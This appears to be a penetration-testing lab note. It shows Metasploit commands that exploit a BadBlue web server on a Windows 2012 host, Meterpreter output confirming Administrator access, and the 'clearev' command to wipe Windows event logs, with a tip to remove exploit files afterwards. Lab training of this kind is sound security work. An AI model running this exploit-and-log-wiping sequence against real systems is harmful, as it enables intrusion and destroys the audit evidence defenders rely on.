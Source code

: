 ```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Clearing Windows Event Logs

❗ *Elevated privileges are necessary to clean the Event logs.*

- From the `Meterpreter` session clear the event log

```bash
clearev
```

![](.gitbook/assets/image-20230419233932312.png)

> 📌 Exploit files or executables need to be cleaned too.

